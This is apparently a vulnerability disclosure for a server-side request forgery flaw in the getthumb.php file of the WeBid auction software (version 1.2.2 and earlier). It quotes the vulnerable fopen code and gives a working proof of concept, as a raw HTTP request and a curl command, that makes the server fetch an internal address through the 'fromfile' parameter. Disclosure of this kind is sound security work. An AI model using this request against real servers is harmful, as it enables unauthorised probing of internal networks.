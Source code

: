 # SSRF vulnerability in `fopen` Function of `getthumb.php` File (WeBid 1.2.2 version)

## 0x01 Affected version

vendor: https://github.com/renlok/WeBid

version: <=1.2.2

php version: 7.x

## 0x02 Vulnerability description

A Server-Side Request Forgery (SSRF) in getthumb.php file of WeBid allows remote attackers to force the application to make arbitrary requests via injection of arbitrary URLs into the `fromfile` parameter and no authorization required.

```php
elseif (!file_exists($_GET['fromfile']) && !fopen($_GET['fromfile'], 'r'))
{
	ErrorPNG($ERR_716);
	exit;
}
```

Because the `fromfile` parameter is unrestricted, it is also possible to use the server side to send requests, such as probing intranet web services. The corresponding PoC is as follows

```
GET /WeBid-1.2.1/getthumb.php?fromfile=http://172.16.119.1/testflag HTTP/1.1
Host: 172.16.119.146
Connection: close
```

You can also use the following curl command to verify the vulnerability

```
curl -i -s -k --location --request GET 'http://172.16.119.146:80/WeBid-1.2.1/getthumb.php?fromfile=http://172.16.119.1/testflag' \
--header 'Connection: close' \
--header 'Host: 172.16.119.146' 
```

![](./media/16638137590308/16638213883564.jpg)

### 0x03 Acknowledgement

Ez Wang, Yf Gao, Zh Wang, Lj Wu, W Xie